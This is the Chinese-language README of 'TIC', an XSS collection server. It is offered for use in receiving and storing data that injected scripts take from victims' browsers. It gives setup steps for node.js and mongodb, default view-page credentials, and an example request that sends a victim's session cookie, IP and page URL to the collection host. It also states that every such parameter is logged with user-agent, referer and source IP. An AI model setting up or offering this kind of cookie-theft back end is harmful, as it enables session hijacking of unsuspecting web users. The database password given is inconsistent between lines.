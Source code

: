 # TIC

TIC,一个简单的XSS服务端. 0x_Jin
  
#### 所需依赖

1. iojs or node.js
2. mongodb

#### 操作流程

1. 安装mongodb后需要最好开启mongodb的ip绑定,绑定到127.0.0.1
2. 安装完后启动mongodb 使用mongo命令来管理mongodb. 添加数据库账户.   
```
use TIC  
db.addUser('TIC','ThisIsPass')  
如果你不想使用这个账号密码,可以更改为其他的.但是请同时修改TIC.js中的这段代码.  
mongoose.connect('mongodb://TIC:ThisIsTIC@localhost/TIC');
```
3. 进入TIC目录,启动TIC.js (iojs TIC.js) , 程序会运行在本地的8080端口
```
如果需要修改端口,可以找到下面这段代码,把8080修改成你想要变更的端口.  
http.createServer(server).listen(8080);
```
4. 本程序提供了结果查看页,路径为: /view , 为了安全性加上了基础认证. 默认基础认证 username:0x_Jin , password:wooyun
```
你可以在TIC.js中找到下面这段代码修改为你想要变更的账号密码.
if (!credentials || credentials.name !== '0x_Jin' || credentials.pass !== 'wooyun')
```
5. 如果你想自己写一个结果查看页,你可以直接从 /receiver 来获得数据  
6. 关于结果如何插入,除了.js .css 以及/view /receiver这些路径外的参数都会接受并存入数据库
```
example:http://xxxx:8080/?url=baidu.com&cookie=PHPSESSION%3Dxxxxxxx&ip=127.0.0.1  
除了GET外,POST也可以.
```
7. 结果分为两大部分,第一部分为header,第二部分为request
```
header中存储的内容是程序获得到的请求者的数据,user-agent referer 源IP  
request中存储的内容为请求过来的数据 比如页面地址,cookie,ip等.
```
